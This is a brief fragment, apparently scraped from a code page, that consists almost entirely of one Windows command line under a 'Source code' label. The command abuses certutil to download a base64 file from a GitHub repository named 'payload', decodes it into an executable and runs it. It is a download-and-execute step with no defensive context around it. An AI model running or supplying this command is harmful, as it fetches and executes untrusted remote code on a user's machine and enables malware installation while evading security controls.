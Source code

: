 certutil.exe -urlcache -split -f "https://raw.githubusercontent.com/halitAKAYDIN/payload/main/file.bs4" test.bs4  & timeout /t 5 /nobreak >nul & certutil -decode test.bs4 file.exe & cmd.exe /c file.exe
